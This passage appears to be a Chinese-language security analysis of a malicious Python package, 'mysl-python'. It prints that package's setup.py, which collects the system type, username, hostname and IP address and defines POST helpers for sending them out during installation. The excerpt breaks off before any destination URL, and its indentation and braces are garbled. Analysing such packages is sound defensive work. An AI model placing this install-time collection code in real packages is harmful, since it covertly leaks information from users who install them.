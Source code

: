 恶意组件的setup.py文件内容如下：

收集敏感信息有：系统类型、用户名、主机名、ip，同时并适配了python2和python3环境

```
! /usr/bin/env python
# -*- coding: utf-8 -*-

from __future__ import unicode_literals

import platform
import socket
import sys
import json
import getpass
import setuptools
from setuptools.command.install import install

# just collect basic info for research and learn
package_name = "mysl-python"
os_type = ""
username = ""
hostname = ""
ip = ""
try:
os_type = platform.system()
username = getpass.getuser()
hostname = platform.node()
ip = socket.gethostbyname(socket.gethostname())
except:
pass

if sys.version_info[0] == 3:
import urllib.request
from urllib.parse import urlencode

def python3POST(url, data=`{``}`):
"""
Returns the response of the POST request as string or
False if the resource could not be accessed.
"""

try:
data = json.dumps(data).encode()
request = urllib.request.Request(
url, data, headers=`{`'content-type': 'application/json'`}`)
reponse = urllib.request.urlopen(request, timeout=15)
except:
pass

POST = python3POST
# we are using Python2
else:
import urllib2
from urllib import urlencode

def python2POST(url, data=`{``}`):
"""
See python3POST
"""
req = urllib2.Request(url,
json.dumps(data),
headers=`{`'content-type': 'application/json'`}`)
try:
response = urllib2.urlopen(req, timeout=15)
```